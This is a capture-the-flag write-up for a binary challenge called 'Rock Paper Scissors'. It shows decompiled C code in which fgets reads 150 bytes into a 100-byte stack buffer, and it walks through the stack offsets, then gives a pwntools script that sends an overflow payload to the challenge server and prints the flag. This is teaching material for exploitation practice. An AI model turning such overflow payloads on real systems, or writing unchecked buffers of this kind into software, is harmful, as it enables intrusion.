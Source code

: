 # Rock Paper Scissors

## Description

Rock Paper Scissors, SHOOT

Flag Format: 0CTF{}

## Flag

```
0CTF{I_HATE_C}
```

## Solution

On decompiling (dogbolt.org) the `rps` ELF file, we get `rps_HexRays.c`.

We can observe that this is yet another buffer overflow challenge as it tries to get a string of length 150 into a 100 byte sized buffer.

```c
	char s[100];        // [esp+0h] [ebp-7Eh] BYREF
	char v5[2];         // [esp+64h] [ebp-1Ah] BYREF
	int ComputerChoice; // [esp+66h] [ebp-18h]
	char v7;            // [esp+6Dh] [ebp-11h]
    ...
    v7 = 0;
    ...
	puts("Welcome to Rock, Paper, Scissors!");
	printf("Enter your name: ");
	fgets(s, 150, stdin);
	s[strcspn(s, "\n")] = 0;
```

The strcspn line just overwrites the first `'\n'` char with a `'\0'` as `fgets` preserves newline in input.

After the program prints the move choices, we have the code:

```c
		fgets(v5, 3, stdin);

		v5[0] -= 48;
		if (!v5[0])
			break;
		if (v5[0] > 0 && v5[0] <= 4) {
			ComputerChoice = generateComputerChoice();
			printf("Computer chooses ");
			if (ComputerChoice == 2) {
				puts("Scissors.");
			} else if (ComputerChoice <= 2) {
				if (ComputerChoice) {
					if (ComputerChoice == 1)
						puts("Paper.");
				} else {
					puts("Rock.");
				}
			}
			if (v5[0] == 4) {
				if (v7 == 1) {
					if (flag) {
						puts("You won with devastating damage, and the computer burst and gave you a flag.");
						printf(flag);
						exit(0);
					}
					puts("Contact an administrator, since the flag is not available.");
				} else {
                    ...
```

So, the interesting case is when the user inputs `4` and `v7 = 1`. As the variable `v7` is initializes with `0` and it is never reassigned, we can assume that it needs to be overwritten by the buffer overflow.

The memory layout seems pretty clear from the comments in the decompiled source file and the objdump output:

```c
	char s[100];        // [esp+0h] [ebp-7Eh] BYREF
	char v5[2];         // [esp+64h] [ebp-1Ah] BYREF
	int ComputerChoice; // [esp+66h] [ebp-18h]
	char v7;            // [esp+6Dh] [ebp-11h]
```

`s` starts at `ebp - 0x7E (126)` and ends at `ebp - 0x19 (25)` (inclusive).
`v7` is at `ebp - 0x11 (17)`.

So, this means we need to write from `ebp - 126` till `ebp - 17` which is in total 110 bytes (126 - 17 + 1).

Also, the last byte we write must be `0x01`. We can safely write all bytes as `0x01` but we choose to use some printable characters (J) to get a visual feedback in the output.

We can do this like:

```py
from pwn import *


r = remote("13.232.34.171", 30917)
r.readuntil(b"name: ")

r.send(b"J" + b"\x01" * (110 - 1) + b"\n")
r.readuntil(b"choice: ")
r.send(b"4\n")
print(r.readall())
```

The output after running this gives:

```
$ python solve.py 
[+] Opening connection to 13.232.34.171 on port 30917: Done
[+] Receiving all data: Done (118B)
[*] Closed connection to 13.232.34.171 port 30917
b'Computer chooses Scissors.\nYou won with devastating damage, and the computer burst and gave you a flag.\n0CTF{I_HATE_C}'
```

## References

- <https://dogbolt.org/?id=a282bb85-9f8e-4146-b5bb-9118483b096f#Hex-Rays=246>

## Attachments

- [rps](https://drive.google.com/file/d/1i_0uWVehhg8arRQHVG5ExCO6fBsKqXkm/view)

